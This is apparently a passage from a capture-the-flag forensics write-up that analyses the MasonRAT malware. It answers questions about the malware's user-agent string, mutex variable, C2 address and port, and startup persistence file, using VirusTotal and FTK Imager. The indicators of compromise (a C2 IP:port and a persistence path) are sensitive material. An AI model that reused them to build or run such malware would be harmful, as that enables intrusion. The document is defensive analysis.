The decrypted malware is MasonRAT, its source is very long, I want try to analyze it thoroughtly, just search for things requested. Inside class `Concentrate` we can see three user-agent strings:



**Answer: Mozilla/5.0 (iPhone; CPU iPhone OS 11_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.0 Mobile/15E148 Safari/604.1**

### 10. What variable stores the mutex object created by this binary?

From VirusTotal's Behaviour tab, we see the created Mutex name here:



Inside Louisiana class we see it's being passed to a variable:



Right-click Destinations, choose Analyze to see where that name is actually used to name a mutex:



**Answer: Territories**

### 11. What is the ip address and port number that C2 file connects to during that time?

Can be seen in virustotal behaviour tab

**Answer: 107.172.232.84:2468**

### 12. A persistence file was dropped to maintain access for the attacker. What is the full path of this file?

In FTK imager, I inspect the startup folder as the malware does:



**Answer: C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\5c74.bat**
